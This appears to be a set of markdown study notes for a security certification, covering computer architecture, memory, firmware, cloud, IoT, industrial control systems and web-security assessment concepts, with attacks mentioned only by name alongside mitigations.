

## Assess and Mitigate Security Vulnerabilities

*Computer architecture* is an engineering discipline concerned with the design and construction of computing systems at a logical level. Computer architecture courses delve into the design of central processing unit (CPU) components, memory devices, device communications, and similar topics at the bit level, defining processing paths for individual logic devices that make simple “0 or 1” decisions.

> The more complex a system, the less assurance it provides. More complexity means that more areas for vulnerabilities exist and more areas must be secured against threats. More vulnerabilities and more threats mean that the subsequent security provided by the system is less trustworthy.

### HARDWARE

#### Processor

The *central processing unit (CPU)*, generally called the *processor* or the *microprocessor*, is the computer’s nerve center—it is the chip (or chips in a multiprocessor system) that governs all major operations and either directly performs or coordinates the complex symphony of calculations that allows a computer to perform its intended tasks.

#### Execution Types

> The terms multitasking, multicore, multiprocessing, multiprogramming, and multithreading may seem nearly identical. However, they describe very different ways of approaching the “doing two things at once” problem. 

**Multitasking** In computing, multitasking means handling two or more tasks simultaneously. `operating system simulates multitasking`.

**Multicore** Today, most CPUs are multicore. Now a chip containing two, four, eight, or potentially dozens of independent execution cores that can operate simultaneously.

**Multiprocessing** In a multiprocessing environment, a multiprocessor computing system (that is, one with more than one CPU) harnesses the power of more than one processor to complete the execution of a multithreaded application. 

Two types of multiprocessing are most common in modern systems with multiple CPUs:

* Single computer contains multiple processors that are treated equally and controlled by a single operating system, is called *symmetric multiprocessing (SMP)*. In SMP, processors share not only a common operating system but also a common data bus and memory resources. 

* Some computationally intensive operations, such as those that support the research of scientists and mathematicians, require more processing power than a single operating system can deliver. Such operations may be best served by a technology known as *massively parallel processing (MPP)* . MPP systems house hundreds or even thousands of processors, each of which has its own operating system and memory/bus resources.

When the software that coordinates the entire system’s activities and schedules them for processing encounters a computationally intensive task, it assigns responsibility for the task to a `single processor`. This processor in turn `breaks the task up into manageable parts` and `distributes` them to `other processors` for execution. Those processors return their results to the `coordinating processor`, where they are assembled and returned to the requesting application.

**Multiprogramming** Multiprogramming is similar to multitasking. It involves the pseudosimultaneous execution of two tasks on a single processor coordinated by the operating system as a way to increase operational efficiency. `relatively obsolete technology`

There are `two` main differences between multiprogramming and multitasking:

* Multiprogramming usually takes place on large-scale systems, such as mainframes, whereas multitasking takes place on personal computer (PC) operating systems, such as Windows and Linux.
* Multitasking is normally coordinated by the operating system, whereas multiprogramming requires specially written software that coordinates its own activities and execution through the operating system.

**Multithreading** Multithreading permits multiple concurrent tasks to be performed within a single process. A thread is a self-contained sequence of instructions that can execute in parallel with other threads that are part of the same parent process. Many Intel CPUs since the 2002 release of Xeon included the proprietary multithreading technology known as hyperthreading, which is the ability to `virtualize two processors per physical core ` in order to allow for the concurrent scheduling of tasks. 

A good example of multithreading occurs when multiple documents are opened at the same time in a word processing program. Each document is treated as a single thread within a single word processor process, and the software chooses which thread it works on at any given moment.

#### Processing Types

Computers must be designed so that they do not—ideally, so that they cannot—inadvertently disclose information to unauthorized recipients. Addressed in two ways - One is through a policy mechanism, whereas the other is through a hardware solution:

**Single State** `policy mechanisms` security administrators approve a processor and system to handle `only one security level at a time`. For example, a system might be labeled to handle only `secret information`. All users of that system must then be approved to handle information at the `secret level`.

**Multistate** handle multiple security levels simultaneously by using specialized security mechanisms. These mechanisms are designed to prevent information from crossing between security levels. `relatively uncommon`. Look into below section - Protection Mechanisms for more specific details on protection mechanisms such as protection rings, operational states, and security modes.

#### Protection Mechanisms

Protection mechanisms - protection rings, operational states, and security modes:

**Protection Rings** 
  
  * It was implemented on Multics operating system (built between 1963 and 1969)
  * From a security standpoint, protection rings organize code and components in an operating system (as well as applications, utilities, or other code that runs under the operating system’s control) into concentric rings. 
  * The deeper inside the circle you go, the higher the privilege level associated with the code that occupies a specific ring. Though the original Multics implementation allowed up to seven rings (numbered 0 through 6), most modern operating systems use a four-ring model (numbered 0 through 3).

  

  

  * The essence of the ring model lies in `priority, privilege, and memory segmentation`. 
  * The process associated with the lowest ring number always runs before processes associated with higher-numbered rings. 
  * Processes in lower-numbered rings can access more resources and interact with the operating system more directly than those in higher-numbered rings.
  * Those processes that run in higher-numbered rings must generally ask a handler or a driver in a lower-numbered ring for services they need; this is sometimes called a *mediated-access model*.
  * Within this model, direct access to specific resources is possible only within certain rings; likewise, certain operations (such as process switching, termination, and scheduling) are allowed only within certain rings.
  * The mechanism whereby mediated access occurs—that is, the driver or handler request mentioned previously—is usually known as a *system call* and usually involves invocation of a specific system or programming interface designed to pass the request to an inner ring for service. 

**Process States/Operating States** 

  * Operating system execute in two states - 
    * *Supervisor state* - privileged and all-access mode   
    * *Problem state* - associated with user mode, where privileges are low and all access requests must be checked against credentials for authorization before they are granted or denied.

  * Processes line up for execution in an operating system in a `processing queue`. 
  * When a new process is created, it enters the processing queue for the first time; should a process consume its entire chunk of processing time (called a *time slice*) without completing, it returns to the processing queue for another time slice the next time its turn comes around.
  * States include - Ready > Waiting > Running > Supervisory (for privileged processes) > Stopped
  * A special part of the kernel, called the *program executive or the process scheduler*, is always around (waiting in memory) so that when a process state transition must occur, it can step in and handle the mechanics involved.

  

  * **Security Modes of Operation**
    A multilevel security system can operate in different modes depending on the sensitivity of the data being processed, the clearance of the users, and what those users are authorized to do. 

	The mode of operation describes the security conditions under which the system actually functions. Below is listed a broad overview of security modes.

    * **Dedicated Security Mode**
    
    A system is operating in dedicated security mode if all users have:

		* Proper clearance for all information on the system
		* Formal access approval for all information on the system
		* A signed NDA (non-disclosure agreement) for all information on the system
		* A valid need-to-know for `all` information on the system
		* The ability to access `all` data

    * **System High-Security Mode** 

    A system is operating in system high-security mode if all users have:

	    * Proper clearance for all information on they system
		* Formal access approval for all information on they system
		* A signed NDA for all information on the system
		* A valid need-to-know for `some` information on the system
		* Can access `some` data, based on their need-to-know	
    
    * **Compartmented Security Mode**

    A system is operating in compartmented security mode if all users have:

		* Proper clearance for the highest level of data classification on the system
		* Formal access approval for `some` information on the system
		* A signed NDA for all information they will access on the system
		* A valid need-to-know for `some` of the information on they system
		* All users can access `some` data, based on their need-to-know and formal access approval

	* **Multilevel Security Mode** 

	A system is operating in multilevel security mode if all users have:

		* Proper clearance for `some` of the information on the system
		* Formal access approval for `some` of the information on the system
		* A signed NDA for all information on the system
		* A valid need-to-know for `some` of the information on the system
		* All users can access `some` data, based on their need-to-know, clearance, and formal access approval

	Mode |	Clearance |	Need to know |	PDMCL (ability to process data from multiple clearance levels)
	--- | --- | --- | ---
	Dedicated | Same |	None |	None
	System high |	Same |	Yes |	None
	Compartmented |	Same |	Yes |	Yes
	Multilevel | Different | Yes |	Yes

```
Useful Link:
http://cisswhat.blogspot.com/2014/02/c4-security-modes-of-operation.html
```
#### Operating Modes

Modern processors and operating systems are designed to support multiuser environments in which individual computer users might not be granted access to all components of a system or all the information stored on it.

**User Mode**
  * User mode is the basic mode used by the CPU when executing user applications.
  * CPU allows the execution of only a portion of its full instruction set.
  * Often processes within user mode are executed within a controlled environment called a *virtual machine (VM)*.
  * Each VM is isolated from all other VMs

**Privileged Mode** 
  * It is designed to give the operating system access to the full range of instructions supported by the CPU.
  * Called by different names - Privileged mode, Supervisory mode, System mode, Kernel mode
  * This mode grants a wide range of permissions to the process executing on the CPU. 


#### Memory

The storage bank for information that the computer needs to keep readily available. 

##### Read-Only Memory
  
  * It’s memory the PC can read but can’t change (no writing allowed).
  * The contents of a standard ROM chip are burned in at the factory, and the end user simply cannot alter it
  * often contain “bootstrap” information that computers use to start up prior to loading an operating system from disk - `power-on self-test (POST)` series of diagnostics that run each time you boot a PC.

**Programmable Read-Only Memory (PROM)**

  * A PROM chip’s contents aren’t “burned in” at the factory
  * A PROM incorporates special functionality that allows an end user to burn in the chip’s contents later.
  * Once data is written to a PROM chip, no further changes are possible. After it’s burned in, a PROM chip essentially functions like a ROM chip.

**Erasable Programmable Read-Only Memory (EPROM)**

  * Two main subcategories of EPROM, namely UVEPROM and EEPROM
  * Ultraviolet EPROMs (UVEPROMs) can be erased with a special ultraviolet light, causes the contents of the chip to be erased.

**Electronically Erasable Programmable Read-Only Memory (EEPROM)**
  
  * Friendly alternative to UVEPROM is electronically erasable PROM (EEPROM), which uses electric voltages delivered to the pins of the chip to force erasure.

**Flash Memory** 
  
  * It is a nonvolatile form of storage media that can be electronically erased and rewritten. 
  * The primary difference between EEPROM and flash memory is that EEPROM must be fully erased to be rewritten whereas flash memory `can be erased and written in blocks or pages`. 
  * The most common type of flash memory is `NAND flash`. It is widely used in memory cards, thumb drives, mobile devices, and SSD (solid-state drives).

##### Random Access Memory

  * Random access memory (RAM) is readable and writable memory that contains information a computer uses during processing.
  * RAM retains its contents only when power is continuously supplied to it. 
  * Critical data should never be stored solely in RAM
  * Backup should always be kept on another storage

**Real Memory**

  * Also known as main memory or primary memory, it is typically the largest RAM storage resource available to a computer. 
  * It is normally composed of a number of dynamic RAM chips and, therefore, must be refreshed by the CPU on a periodic basis 

**Cache RAM** 

  * Computer systems contain a number of caches that improve performance by taking data from slower devices and temporarily storing it in faster devices when repeated use is likely; this is cache RAM.
  * The processor normally contains an onboard cache of extremely fast memory used to hold data on which it will operate
  * Many modern CPUs include up to three levels of on-chip cache, with some caches (usually L1 and/or L2) `dedicated to a single processor core`. 
  * `L3 `may be a `shared cache between core`s.
  * Some CPUs can involve `L4` cache which may be `located on the mainboard/motherboard or on the GPU` (graphics processing unit).
  * Many peripherals also include onboard caches to reduce the storage burden they place on the CPU and operating system. Example, large printers, hard disc drive (HDD), solid-state drive (SSD) etc

**DYNAMIC VS. STATIC RAM**
  
  * Dynamic RAM uses a series of `capacitors`, tiny electrical devices that hold a charge. And capacitors naturally lose their charges over time so CPU must invest time to refresh the content.
  * Static RAM uses more sophisticated technology—a logical device known as a `flip-flop`, which to all intents and purposes is simply an on/off switch that must be moved from one position to another to change a 0 to 1 or vice versa.
  * Dynamic RAM is cheaper than static RAM because capacitors are cheaper than flip-flops.
  * Static RAM runs much faster than dynamic RAM.

##### Registers

  * The CPU also includes a limited amount of onboard memory, known as registers, that provide it with directly accessible memory locations that the brain of the CPU, the `arithmetic-logical unit (ALU)`, uses when performing calculations or processing instructions.

##### Memory Addressing

When using memory resources, the processor must have some means of referring to various locations in memory. The solution to this problem is known as addressing.

**Register Addressing** When the CPU needs information from one of its registers to complete an operation, it uses a register address (for example, “register 1”) to access its contents. Example `register 1`

**Immediate Addressing** Immediate addressing is not a memory addressing scheme per se but rather a way of referring to data that is supplied to the CPU as part of an instruction. Example - `Add 2 to the value in register 1`

**Direct Addressing**  the CPU is provided with an actual address of the memory location to access. The address must be located on the same memory page as the instruction being executed.

**Indirect Addressing** the memory address supplied to the CPU as part of the instruction doesn’t contain the actual value that the CPU is to use as an operand.  Instead, the memory address contains another memory address (perhaps located on a different page).

**Base+Offset Addressing** uses a value stored in one of the CPU’s registers as the base location from which to begin counting. The CPU then adds the offset supplied with the instruction to that base address and retrieves the operand from that computed memory location

##### Secondary Memory 

  * It refer to magnetic, optical, or flash-based media or other storage devices that contain data not immediately available to the CPU.
  * For the CPU to access data in secondary memory, the data must first be read by the operating system and stored in real memory.
  * Secondary memory is much more inexpensive so can be used to store large amount of data.
  * `Virtual memory` is a special type of secondary memory that the operating system manages to make look and act just like real memory. Example - pagefile (Swapping the read data from pagefile to real memory is called `paging`). 
  * Disadvantage of paging is its relatively slow. Improve the performance by using flash card or SSD.

##### Memory Security Issues
  
  * Any memory devices that may retain sensitive data should be purged before they are allowed to leave your organization for any reason. This is especially true for secondary memory and ROM/PROM/EPROM/EEPROM devices designed to retain data even after the power is turned off.

  * A technically sophisticated individual could theoretically take electrical measurements of those components and retrieve portions of the data stored on such devices.

  > There is an attack that freezes memory chips to delay the decay of resident data when the system is turned off or the RAM is pulled out of the motherboard. See http://en.wikipedia.org/wiki/Cold_boot_attack. There are even attacks that focus on memory image dumps or system crash dumps to extract encryption keys. See www.lostpassword.com/hdd-decryption.htm.

  * Controlling who may access data stored in memory while a computer is in use. Mechanisms like process isolation, leakage of memory content between security levels, convert channel etc.

#### Storage

These devices are used to store information that may be used by a computer any time after it’s written.

##### Primary vs. Secondary

  * Primary and Secondary Storage is same as primary and secondary memory. 
  * Primary memory, also known as primary storage, is the RAM that a computer uses to keep necessary information readily available to the CPU while the computer is running
  * Secondary memory (or secondary storage) includes all the familiar long-term storage devices that you use every day.

##### Volatile vs. Nonvolatile

  * Devices designed to retain their data (such as magnetic media) are classified as *nonvolatile*, 
  * whereas devices such as static or dynamic RAM modules, which are designed to lose their data, are classified as *volatile*.
  * Sophisticated technology may sometimes be able to extract data from volatile memory after power is removed, so the lines between the two may sometimes be blurry.

##### Random vs. Sequential

  * Almost all primary storage devices are random access devices
  * You can use a memory address to access information stored at any point within a RAM chip without reading the data that is physically stored before it. Example, hard drives, CD, DVD etc
  * Sequential storage devices,  require that you read (or speed past) all the data physically stored prior to the desired location. Example, magnetic tape drive. 
  * Sequential storage devices operate much slower than random access storage devices
  * Cost benefit: Sequential storage devices can hold massive amounts of data on relatively inexpensive media

##### Storage Media Security
  
  * Data may remain on secondary storage devices even after it has been erased. This condition is known as *data remanence*. You must use a specialized utility designed to destroy all traces of data on the device or damage or destroy it beyond possible repair (commonly called *sanitizing*).

  * SSD wear leveling means that there are often blocks of data that are not marked as “live” but that hold a copy of the data when it was copied off to lower wear leveled blocks. This means that a traditional zero wipe is ineffective as a data security measure for SSDs.

  * Secondary storage devices are also prone to theft. Use full disk encryption. It is good security practice to `encrypt SSDs` prior to storing any data on them due to their wear leveling technology. This will minimize the chance of any plaintext data residing in dormant blocks.  

  * For hard disks, data can often be protected through a combination of operating system access controls. Removable media pose a greater challenge, so securing them often requires encryption technologies.

  * As availability is also part of the security triad. a backup tape might degrade before the retention period of the data terminates. Also, the technology used for secondary storage might become obsolete, making it difficult to restore/read the data.

#### Input and Output Devices

##### Monitors

  * TEMPEST can compromise the security of data displayed on a monitor. cathode ray tube (CRT) is more prone to this attack then liquid crystal display (LCD) monitors. 

  * The biggest risk with any monitor is still *shoulder surfing or telephoto lenses on cameras*. 

##### Printers

  * Sensitive information left on the printer 
  * Many modern printers also store data locally, often on a hard drive, and some retain copies of printouts indefinitely
  * Network enabled printer should secure communication via encrypted data transfer and authentication before printer interaction.

##### Keyboards/Mice

  * TEMPEST monitoring
  * If your keyboard and mouse are wireless, including Bluetooth, their radio signals can be intercepted.

##### Modems
 
  * Modems on user system can help bypass security controls if they are connected to operational telephone landline. 
  * Ban the usage if possible. 

### FIRMWARE

Firmware (also known as *microcode* in some circles) is a term used to describe software that is stored in a ROM chip. This type of software is changed infrequently (actually, never, if it’s stored on a true ROM chip as opposed to an EPROM/EEPROM) and often drives the basic operation of a computing device. There are two types of firmware: BIOS on a motherboard and general internal and external device firmware.

#### BIOS and UEFI

  * *Basic input/output system (BIOS)* contains the operating system–independent primitive instructions that a computer needs to start up and load the operating system from disk.

  *  In most computers, the BIOS is stored on an EEPROM chip to facilitate version updates. The process of updating the BIOS is known as “*flashing* the BIOS.”

  * Attacks - *phlashing* in which a malicious variation of official BIOS or firmware is installed that introduces remote control or other malicious features into a device.

  * Since 2011, most motherboard have *Unified Extensible Firmware Interface (UEFI).* which is more advanced interface between hardware and the operating system, which maintains support for legacy BIOS services.

##### Device Firmware

  * Example devices - printers and modems
  * These “mini” operating systems are entirely contained in firmware chips onboard the devices they serve. As with a computer’s BIOS, device firmware is frequently stored on an EEPROM device so it can be updated as necessary.

## Client-Based Systems

A common example of a client-side attack is a malicious website that transfers malicious mobile code (such as an applet) to a vulnerable browser running on the client. Client-side attacks can occur over any communications protocol, not just Hypertext Transfer Protocol (HTTP). Another potential vulnerability that is client based is the risk of poisoning of local caches.

### APPLETS

  * Applets are code objects are sent from a server to a client to perform some action. They execute independently of the server that sent them.

  * Use of applets is not as common today as it was in the early 2010s but applets are not absent from the Web and even if your organization are not using them user can encounter them if they surf web.

  * Why us Applets?

    * Processing burden is shifted to the client
    * Client is able to produce data using local resources rather than waiting for a response from the remote server. 
    * The web server may not receive any data provided to the applet as input, therefore maintaining the security and privacy of the user’s financial data.
  
  * Two historical examples of applet types are Java applets and ActiveX controls.

  * **Java Applets** Java Virtual Machine (JVM) converts the java code and translate them into executable system instruction. Java as “sandbox” concept to place privilege restrictions on Java code. Unfortunately, while sandboxing reduces the forms of malicious events that can be launched via Java, there are still plenty of other vulnerabilities that have been widely exploited.

  * **ActiveX Controls** implemented using a variety of languages, including Visual Basic, C, C++, and Java. ActiveX controls use proprietary Microsoft technology and, therefore, can execute only on systems running Microsoft browsers. ActiveX controls are not subject to the sandbox restrictions placed on Java applets. They have full access to the Windows operating environment and can perform a number of privileged actions. Some security administrators have taken the somewhat harsh position of prohibiting the download of any ActiveX content from all but a select handful of trusted sites

### LOCAL CACHES

  * A local cache is anything that is temporarily stored on the client for future reuse. There are many local caches on a typical client, including Address Resolution Protocol (ARP) cache, Domain Name System (DNS) cache, and internet files cache.

	  * ARP cache poisoning
	  * Create static ARP entries
	  * DNS cache poisoning - HOSTS poisoning, authorized DNS server attacks, caching DNS server attacks, DNS lookup address changing, and DNS query spoofing.

  * Mitigation: 
	  * Keep operating systems and applications current with patches from their respective vendors.
	  * Install both host-IDS and network-IDS tools to watch for abuses of these types
	  * Regularly review the logs of your DNS and DHCP systems, as well as local client system logs with network devices.
	  * Organizations should use a split-DNS system (aka split-horizon DNS, split-view DNS, and split-brain DNS). A split-DNS is deploying a DNS server for public use and a separate DNS server for internal use. 

## Server-Based Systems

 * Focus on *data flow control* - Data flow is the movement of data between processes, between devices, across a network, or over communication channels.
 * Object - ensures not only efficient transmission with minimal delays or latency, but also `reliable throughput using hashing and confidentiality protection with encryption`
 * Also ensures that receiving systems are not overloaded with traffic - denial of service
 * Data flow control may be provided by networking devices, including routers and switches, as well as network applications and services.
 * Implementation of load balancer is one of the option - optimal infrastructure utilization, minimize response time, maximize throughput, reduce overloading, and eliminate bottlenecks.

## Database Systems Security

### AGGREGATION

  * SQL provides a number of functions that combine records from one or more tables to produce potentially useful information. This process is called *aggregation*. 
  * Aggregation attacks are used to collect numerous low-level security items or low-value items and combine them to create something of a higher security level or value.
  * Database security administrators should strictly control access to aggregate functions and adequately assess the potential information they may reveal to unauthorized individuals.

### INFERENCE

  * Inference attacks involve combining several pieces of nonsensitive information to gain access to information that should be classified at a higher level. Inference makes use of the human mind’s deductive capacity rather than the raw mathematical ability of modern database platforms.

  * The best defense against inference attacks is to maintain constant vigilance over the permissions granted to individual users.

### DATA MINING AND DATA WAREHOUSING

  * Many organizations use large databases, known as *data warehouses*, to store large amounts of information from a variety of databases for use with specialized analysis techniques. 

  * A *data dictionary* is commonly used for storing critical information about data, including usage, type, sources, relationships, and formats. Database management system (DBMS) software reads the data dictionary to determine access rights for users attempting to access data.

  * *Data mining* techniques allow analysts to comb through data warehouses and look for potential correlated information.

  * The activity of data mining produces *metadata*. Metadata is data about data or information about data. 

  * One common security example of metadata is that of a security incident report. An incident report is the metadata extracted from a data warehouse of audit logs through the use of a security auditing data mining tool. In most cases, metadata is of a greater value or sensitivity (due to disclosure) than the bulk of data in the warehouse. Thus, metadata is stored in a more secure container known as the *data mart*.

  * Data warehouses and data mining are significant to security professionals for two reasons: 
    * Sensitive information vulnerable to aggregation and inference
    * Data mining can actually be used as a security tool when it’s used to develop baselines for statistical anomaly–based intrusion detection systems.

### DATA ANALYTICS

  * Data analytics is the science of raw data examination with the focus of extracting useful information out of the bulk information set

  * *Big data* refers to collections of data that have become so large that traditional means of analysis or processing are ineffective, inefficient, and insufficient. Big data analysis requires high-performance analytics running on massively parallel or distributed processing systems.

### LARGE-SCALE PARALLEL DATA SYSTEMS

  * *Parallel data systems or parallel computing* is a computation system designed to perform numerous calculations simultaneously. But parallel data systems often go far beyond basic multiprocessing capabilities. They often include the concept of dividing up a large task into smaller elements, and then distributing each subelement to a different processing subsystem for parallel computation.

  * Arena of multiprocessing or parallel processing there are several divisions:

    * *Asymmetric multiprocessing (AMP) and Symmetric multiprocessing (SMP)*

    AMP:
    - Each processor has its own OS and/or task instruction set
    - processors can be configured to execute only specific code or operate on specific tasks - *affinity* 

    SMP:
    - Processors each share a common OS and memory
    - Collection of processors also works collectively on a single task, code, or project.

    * A variation of AMP is *massive parallel processing (MPP)*, where numerous SMP systems are linked together in order to work on a single primary task across multiple processes in multiple linked systems.

## Distributed Systems and Endpoint Security

* As computing has evolved from a *host/terminal model* to a *client-server model* security controls and concepts have had to evolve to follow suit. This means that clients have computing and storage capabilities and, typically, that multiple servers do likewise. The concept of a client-server model network is also known as a `distributed system or a distributed architecture`.

* Desktop systems can contain sensitive information that may be at some risk of being exposed and must therefore be protected.

* Communications equipment can also provide unwanted points of entry into a distributed environment. 

* Desktops, laptops, tablets, mobile phones, and workstations—and associated disks or other storage devices—may not be secure from physical intrusion or theft.

* Clients must be subjected to policies that impose safeguards on their contents and their users’ activities. These include the following:

  * Email should be monitored and policies should be implemented
  * Download/upload policies must be created so that incoming and outgoing data is screened and suspect materials blocked.
  * Robust access controls- multifactor authentication and/or biometrics
  * Restrict and manage access to critical information so users have minimal but necessary access to sensitive resources
  * File encryption may be appropriate for files and data stored on client machines
  * Separate and isolate processes that run in user and supervisory modes
  * Protection domains should be created so that compromise of a client won’t automatically compromise an entire network.
  * Disks and other sensitive materials should be clearly labeled
  * Files on desktop machines should be backed up, as well as files on servers
  * Regular security awareness training to maintain proper security awareness
  * Require protection against environmental hazards (temperature, humidity, power loss/fluctuation, and so forth).
  * Desktop computers should be included in disaster recovery and business continuity plannin

 * Defense in depth or layer security mechanism should be deployed. 

### CLOUD-BASED SYSTEMS AND CLOUD COMPUTING

Processing and storage still occurs on computers somewhere, but the distinction is that the local operator no longer needs to have that capacity or capability locally.

The *hypervisor*, also known as the *virtual machine monitor (VMM)*, is the component of virtualization that creates, manages, and operates the virtual machines. The computer running the hypervisor is known as the `host O`S, and the OSs running within a hypervisor-supported virtual machine are known as `guest OSs`.

A *type I hypervisor* is a native or bare-metal hypervisor. There is no host OS; instead, the hypervisor installs directly onto the hardware where the host OS would normally reside. Type 1 hypervisors are often used to support server virtualization.

A *type II hypervisor* is a hosted hypervisor. A standard regular OS is present on the hardware, and then the hypervisor is installed as another software application. Type II hypervisors are often used in relation to desktop deployments.


*Cloud storage* is the idea of using storage capacity provided by a cloud vendor as a means to host data files for an organization. Cloud storage can be used as form of backup or support for online data services.

*Elasticity* refers to the flexibility of virtualization and cloud solutions to expand or contract based on need.

Some of the concepts in cloud computing are listed here:

**Platform as a service** is the concept of providing a computing platform and software solution stack as a virtual or cloud-based service. Example AWS RDS

**Software as a service** SaaS provides on-demand online access to specific software applications or suites without the need for local installation. Example,  Microsoft Office 365, Google Docs

**Infrastructure as a service** This include utility or metered computing services, administrative task automation, dynamic scaling, virtualization services, policy implementation and management services, and managed/filtered internet connectivity. Example EC2  



An *on-premise* solution is the traditional deployment concept in which an organization owns the hardware, licenses the software, and operates and maintains the systems on its own usually within their own building.

A *hosted solution* is a deployment concept where the organization must license software and then operates and maintains the software. The hosting provider owns, operates, and maintains the hardware that supports the organization’s software.

A *cloud solution* is a deployment concept where an organization contracts with a third-party cloud provider. The cloud provider owns, operates, and maintains the hardware and software.

Cloud services can also be offered in a variety of deployment options, including the following:

**Private** A private cloud is a cloud service within a corporate network and isolated from the internet

**Public**  A public cloud is a cloud service that is accessible to the general public, typically over an internet connection.

**Hybrid** A hybrid cloud is a mixture of private and public cloud components. . For example, an organization could host a private cloud for exclusive internal use but distribute some resources onto a public cloud for the public, business partners, customers, the external sales force, and so on.

**Community** A community cloud is a cloud environment maintained, used, and paid for by a group of users or organizations for their shared benefit, such as collaboration and data exchange.

Cloud Security concerns :

* Cloud computing does have some issues, including privacy concerns, regulation compliance difficulties, use of open/closed-source solutions, adoption of open standards, and whether or not cloud-based data is actually secured (or even securable). Cloud computing and virtualization, especially when you are virtualizing in the cloud, have serious risks associated with them. Once sensitive, confidential, or proprietary data leaves the confines of the organization, it also leaves the protections imposed by the organizational security policy and resultant infrastructure. Cloud providers often have the resources to invest in security engineers, operations, and testers that many small to midsize (or even large) organizations simply can’t afford. It is important to investigate the security of a cloud service before adopting it.

* With the increased burden of industry regulations, such as the Sarbanes–Oxley Act of 2002 (SOX), Health Insurance Portability and Accountability Act (HIPAA), and Payment Card Industry Data Security Standards (PCI DSS), it is essential to ensure that a cloud service provides sufficient protections to maintain compliance. 

* It is important to investigate the encryption solutions employed by a cloud service.

* What is the method and speed of recovery or restoration from the cloud?

*Snapshots* are backups of virtual machines. Patch management is still essential.

The virtualization product may introduce additional and unique security concerns, so the testing process needs to be adapted to include those idiosyncrasies.

A *cloud access security broker (CASB)* is a security policy enforcement solution that may be installed on-premises, or it may be cloud-based. The goal of a CASB is to enforce and ensure that proper security measures are implemented between a cloud solution and a customer organization.

*Security as a service (SECaaS)* is a cloud provider concept in which security is provided to an organization through or by an online entity.  SECaaS security components can include a wide range of security products, including authentication, authorization, auditing/accounting, anti-malware, intrusion detection, compliance and vulnerability scanning, penetration testing, and security event management.

The *cloud shared responsibility model* is the concept that when an organization uses a cloud solution, there is a division of security and stability responsibility between the provider and the customer. The different forms of cloud service (such as SaaS, PaaS, and IaaS) may each have different levels or division points of shared responsibility. A `SaaS solution` places most of the management burden on the shoulders of the `cloud provider`, while `IaaS` management leans more toward the `customer`. 

### GRID COMPUTING

* Grid computing is a form of parallel distributed processing that loosely groups a significant number of processing nodes to work toward a specific processing goal.

* Members of the grid can enter and leave the grid at random intervals.

* The biggest security concern with grid computing is that the content of each work packet is potentially exposed to the world. Many grid computing projects are `open to the world`, so there is no restriction on who can run the local processing application and participate in the grid’s project.

* Grid computing often uses a central primary core of servers to manage the project, track work packets, and integrate returned work segments.

* There is also a potential risk that a compromise of the central grid servers could be leveraged to attack grid members or trick grid members into performing malicious actions instead of the intended purpose of the grid community.

### PEER TO PEER

* Peer-to-peer (P2P) technologies are networking and distributed application solutions that share tasks and workloads among peers.

* This is similar to grid computing; the primary differences are that there is no central management system and the services provided are usually real time rather than as a collection of computational power. Common examples of P2P include many VoIP services, such as Skype, BitTorrent (for data/file distribution), and Spotify (for streaming audio/music distribution).

* Security concerns with P2P solutions include a perceived inducement to `pirate copyrighted materials`, the ability to eavesdrop on distributed content, a lack of central control/oversight/management/filtering, and the potential for services to consume all available bandwidth.

## Internet of Things

*Smart devices* are a range of mobile devices that offer the user a plethora of customization options, typically through installing apps, and may take advantage of on-device or in-the-cloud artificial intelligence (AI) processing.

The *Internet of Things (IoT)* is a new subcategory or even a new class of smart devices that are Internet-connected in order to provide automation, remote control, or AI processing to traditional or new appliances or devices in a home or office setting. 

The security issues related to IoT are about access and encryption. All too often an IoT device was not designed with security as a core concept or even an afterthought.

One possible secure implementation is to deploy a distinct network for the IoT equipment, which is kept separate and isolated from the primary network. This configuration is often known as the *three dumb routers* (see https://www.grc.com/sn/sn-545.pdf or https://www.pcper.com/reviews/General-Tech/Steve-Gibsons-Three-Router-Solution- IOT-Insecurity).

From organization point of view:

- use of mobile devices by employees within the company’s facilities and even on the organizational network. 
- This includes environmental controls, such as heating, ventilation, and air conditioning (HVAC) management, air quality control, debris and smoke detection, lighting controls, door automation, personnel and asset tracking, and consumable inventory management and auto-reordering (such as coffee, snacks, printer toner, paper, and other office supplies)

For some additional reading on the importance of proper security management of smart devices and IoT equipment, please see “NIST Initiatives in IoT” at https://www .nist.gov/itl/applied-cybersecurity/nist-initiatives-iot.

## Industrial Control Systems

* An industrial control system (ICS) is a form of computer-management device that controls industrial processes and machine. Example: manufacturing, fabrication, electricity generation and distribution, water distribution, sewage processing, and oil refining. 

* There are several forms of ICS, including *distributed control systems (DCSs)*, *programmable logic controllers (PLCs)*, and *supervisory control and data acquisition (SCADA)*

* `DCS` units are typically found in industrial process plans where the need to gather data and implement control over a large-scale environment from a single location is essential. Such as a manufacturing floor or a production line. It can be analog or digital in nature.

* `PLC` units are effectively single-purpose or focused-purpose digital computers. Example: large-scale digital light display

* `SCADA` system can operate as a stand-alone device, be networked together with other SCADA systems, or be networked with traditional information technology (IT) systems. Most SCADA systems are designed with minimal human interfaces.

In theory, the static design of SCADA, PLC, and DCS units and their minimal human interfaces should make the system fairly resistant to compromise or modification.  there have been several well-known compromises of industrial control systems in recent year.  Many SCADA vendors have started implementing security improvements into their solutions in order to prevent or at least reduce future compromises. 

## Assess and Mitigate Vulnerabilities in Web-Based Systems

Vulnerabilities include concerns related to Extensible Markup Language (XML) and Security Association Markup Language (SAML) plus many other concerns discussed by the open community-focused web project known as the *Open Web Application Security Project (OWASP)*.

Steps web security assessment:

- Any security evaluation should start off with reconnaissance or information gathering
- An assessment of the site’s configuration management (such as file handling, extensions in use, backups, looking for sensitive data in client-side code) and evaluating the site’s transmission security (Secure Sockets Layer (SSL)/Transport Layer Security (TLS) version support, assessing cipher suites, cookie/session ID/token management, and susceptibility to forged requests)
- Evaluate authentication and session management 
- Evaluating the cryptography of the site and the methods used for data validation and sanitization. 
- A web security assessment should also involve checking for DoS defenses, evaluating risk responses, and testing error handling.

*A few of the OWASP top ten Web risks that you may want to know about are injection, XML exploitation, cross-site scripting (XSS), and XSRF.*

